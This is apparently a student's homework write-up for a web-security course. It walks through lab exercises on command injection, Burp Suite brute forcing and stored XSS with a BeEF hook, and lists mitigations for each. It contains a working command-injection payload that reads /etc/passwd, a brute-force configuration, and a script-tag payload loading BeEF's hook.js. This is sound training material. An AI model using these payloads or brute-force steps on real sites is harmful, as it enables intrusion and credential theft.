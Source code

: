 ### Week 15 Homework: Web Vulnerabilities and Hardening Homework

#### Web Application 1: *Your Wish is My Command Injection*

Access Vagrant and open a browser.

Launch Vagrant from GitBash and run the following command:

`cd ./Documents/web-vulns && docker-compose up`

Leave this page open and continue to the next step.

Open Chrome, navigate to the following web page:

`http://192.168.13.25`

Log in with the following credentials:

- User name: `admin`
- Password: `password`

Select the `Command Injection` option from the left menus.

Using the dot-dot-slash `../` method five times to design two payloads that will display the contents of the following files:

- `8.8.8.8 && cat ../../../../../etc/passwd`
![cat ../../../../../etc/passwd](images/passwd.png "cat ../../../../../etc/passwd")

- `8.8.8.8 && cat ../../../../../etc/hosts`
![cat ../../../../../etc/hosts](images/hosts.png "cat ../../../../../etc/hosts")

**Recommended mitigation strategies:**

- Server-side validation so unintended files aren't shown to the general public
- Confidential files should not be accesible onb the diorectories in this server. We need to segregate those files so they arent easible accesible tro unauthorized people.
- Permissions to restrict web server account accessibility.

#### Web Application 2: *A Brute Force to Be Reckoned With*

Run this command `sudo burpsuite` in Vagrant command line.

Open Firefox which was already installed `FoxyProxy` add-on extension in class activities.
![](images/bwapp.png)

In Burpsuite, I got following intercept data:

```
Request to http://192.168.13.35:80
```
```
POST /ba_insecure_login_1.php HTTP/1.1
Host: 192.168.13.35
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Connection: close
Referer: http://192.168.13.35/ba_insecure_login_1.php
Cookie: PHPSESSID=l998k837fiaj3b5c1o8kcsf0m6; security_level=0
Upgrade-Insecure-Requests: 1

login=test-user&password=password&form=submit
```

![Proxy Intercept results](images/intercept.png)

- Send above Proxy intercept results to Intruder. Click `Intruder` tab;
- Verify `Target`;

![Intruder Target](images/intruder-target.png)

- Setup `Positions`, select attack type `Cluster bomb`; 
- Configure and add `login` and `password` as positions.

![Intruder Positions](images/intruder-positions.png) 

- Click `Payloads` tab, choose `Payload` type as `Simple list`;
- Add login user ID from `List of Administrators` file into Payload set 1;
- Add password from `Breached list of Passwords` file into Payload set 2;

![Intruder Payloads](images/intruder-payloads.png)

- Click `Start attack`

After analysis of intruder attack results, the login username/password combination of "**`tonystark`**" and "**`I am Iron Man`**" did result in a successful login. The page displays `Successful login! You really are Iron Man :)`.

![Intruder Results](images/intruder-results.png)

Recommended mitigation strategies:

- Mitigations can include requiring complex usernames and passwords
- Enabling MFA (multi-factored authentication)
- Enabling a lockout after a certain amount of failed login attempts.

#### Web Application 3: *Where's the BeEF?*

**Step 1, Prepare Replicants website**

Inside Vagrant, go to this folder, run command:
`~/Documents/web-vulns$ docker-compose up`

Go to this website:
`http://192.168.13.25/vulnerabilities/xss_s/`

Reset db and login again.
Username: `admin`
Password: `password`

**Step 2, Setup BeEF**

On Vagrant, open a command line and run the following command: `sudo beef`

When prompted for a password, enter `cybersecurity`.

To access the BeEF GUI, right-click the first URL `UI_URL: http://127.0.0.1:3000/ui/panel` and select Open Link.

When the BeEF webpage opens, login with the following credentials:

Username: `beef`
Password: `feeb`

**Step 3, Find BeEF hook and write payload**

```
BeEF hook: http://127.0.0.1:3000/hook.js

Playload: <script src="http://127.0.0.1:3000/hook.js"></script>
```

**Step 4, Inject this payload**

One issue was found: in the message box field, there only has maxlength="50" in original source code, therefore we can not input the whole payload code.
![](images/maxlength-50.png)

Solution: Right-clicking on web page and selecting "Inspecting the Element". Change as `maxlength="100"`, or just delete this code limit.

![](images/maxlength-100.png)

**Step 5, A couple BeEF exploits**

Pretty Theft

![Pretty Theft - Facebook](images/pretty-theft.png)

![Pretty Theft - LinkedIn](images/pretty-theft-2.png)

Fake Notification Bar

![Fake Notification Bar](images/fake-notification-bar.png)

Get Geolocation (Third Party)

![Get Geolocation (Third Party)](images/get-geolocation.png)

#### Recommended mitigation strategies

- A common method of mitigating cross-site scrippting is by implementing "Input Validation"
- With input validation, a regular user wont be able to exploit the site since the server will evaluate the request and respond with only allowed information instead of displaying confidential info. 
